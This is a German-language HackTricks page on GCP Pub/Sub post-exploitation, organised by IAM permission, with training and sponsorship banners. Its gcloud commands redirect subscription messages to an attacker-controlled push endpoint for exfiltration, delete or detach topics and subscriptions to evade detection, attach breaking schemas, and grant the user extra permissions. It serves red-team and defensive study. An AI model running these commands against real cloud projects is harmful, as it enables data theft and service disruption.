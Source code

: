 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Pub/Sub

Für weitere Informationen über Pub/Sub siehe die folgende Seite:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Veröffentliche eine Nachricht in einem Thema, nützlich, um **unerwartete Daten zu senden** und unerwartete Funktionen auszulösen oder Schwachstellen auszunutzen:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Nützlich, um zu verhindern, dass ein Abonnement Nachrichten empfängt, möglicherweise um eine Entdeckung zu vermeiden.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Nützlich, um zu verhindern, dass ein Abonnement Nachrichten empfängt, möglicherweise um eine Erkennung zu vermeiden.\
Es ist möglich, ein Thema zu löschen, selbst wenn Abonnements daran angehängt sind.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Verwenden Sie diese Berechtigung, um einige Einstellungen des Themas zu ändern und es zu stören, wie `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Geben Sie sich selbst die Berechtigung, um eine der vorherigen Angriffe durchzuführen.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Holen Sie sich alle Nachrichten auf einem Webserver:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Erstellen Sie ein Abonnement und verwenden Sie es, um **Nachrichten abzurufen**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Löschen eines Abonnements** könnte nützlich sein, um ein Log-Verarbeitungssystem oder etwas Ähnliches zu stören:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Verwenden Sie diese Berechtigung, um einige Einstellungen zu aktualisieren, damit Nachrichten an einem Ort gespeichert werden, auf den Sie zugreifen können (URL, Big Query-Tabelle, Bucket) oder um sie einfach zu stören.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Geben Sie sich selbst die benötigten Berechtigungen, um eine der zuvor genannten Angriffe durchzuführen.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Einen Schema an ein Topic anhängen, sodass die Nachrichten es nicht erfüllen und daher das Topic gestört wird.\
Falls keine Schemas vorhanden sind, müssen Sie möglicherweise eines erstellen.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Dies könnte so aussehen, als ob das Löschen eines Schemas es Ihnen ermöglichen würde, Nachrichten zu senden, die nicht dem Schema entsprechen. Da das Schema jedoch gelöscht wird, wird tatsächlich keine Nachricht in das Thema gelangen. Das ist also **NUTZLOS**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Geben Sie sich selbst die Berechtigungen, die erforderlich sind, um einen der zuvor genannten Angriffe durchzuführen.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Dies wird einen Snapshot aller nicht bestätigten Nachrichten erstellen und sie zurück zum Abonnement setzen. Nicht sehr nützlich für einen Angreifer, aber hier ist es:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
